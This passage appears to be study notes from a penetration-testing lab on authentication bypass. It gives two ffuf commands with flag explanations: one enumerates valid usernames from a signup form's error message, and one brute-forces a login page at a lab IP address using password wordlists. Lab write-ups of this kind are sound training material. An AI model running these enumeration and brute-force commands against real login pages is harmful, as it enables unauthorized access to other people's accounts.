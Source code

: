 - Username enumeration
For example, lets say that we have a signup form on **10.10.237.98/customers/signup**, if we tried to type **admin** it will tell us that the username already exists.

We can use the existance of this error to produce a list of valid usernames already signed up using the ffuf tool.

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.237.98/customers/signup -mr "username already exists"

```

**-w** selects the file's location on the computer.
**-X** argument specifies the request method
**-d** specifies the data that we are going to send
**-H** argument is used for adding additional headers to the request, in this instance, we are setting the **Content-Type** so the web server knows we are sending form data.
**-u** argument specifies the URL we are making the request to.
**-mr** text on the page we are looking for to validate we've found a valid username

- Brute Force

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.237.98/customers/login -fc 200
```

We have chosen **W1** for our list of valid usernames and **W2** for the list of passwords we will try, the multiple wordlists are again selected with **-w** but separated with a comma, we're using the **-fc** argument to check for an **HTTP status code other than 200**

